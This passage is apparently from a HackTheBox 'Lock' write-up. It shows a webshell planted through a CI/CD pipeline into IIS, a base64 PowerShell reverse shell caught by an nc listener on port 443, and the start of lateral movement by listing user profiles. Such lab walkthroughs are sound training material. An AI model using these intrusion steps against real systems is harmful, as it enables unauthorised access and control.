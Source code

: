 ## Revshell as ellen.freeman
Within seconds the file appears under the web root on **port 80**. 

![](/img/htb_img/Lock_img/img6.png)

Opening the webshell gives a command box. I generated a quick PowerShell reverse shell (base64-encoded) and pasted it into the webshell to call back to my listener:
```bash
❯ rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.xx.xx] from (UNKNOWN) [10.129.xx.xx] 60457

PS C:\inetpub\wwwroot> whoami
lock\ellen.freeman
PS C:\inetpub\wwwroot> 
```

**Foothold:** `whoami` returns `lock\ellen.freeman`.
Why this works: the repo is wired to production through CI/CD. By adding a server-side executable page (ASPX), the build deploys it straight into IIS, giving us code execution through the web interface.

<br>

# Lateral movement 
## mRemoteNG loot: RDP
With a shell as `ellen.freeman`, I enumerated user profiles:
```powershell
PS C:\inetpub\wwwroot> Get-ChildItem C:\Users


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        12/27/2023   2:00 PM                .NET v4.5                                                            
d-----        12/27/2023   2:00 PM                .NET v4.5 Classic                                                    
d-----        12/27/2023  12:01 PM                Administrator                                                        
d-----        12/28/2023  11:36 AM                ellen.freeman                                                        
d-----        12/28/2023   6:14 AM                gale.dekarios                                                        
d-r---        12/27/2023  10:21 AM                Public
```
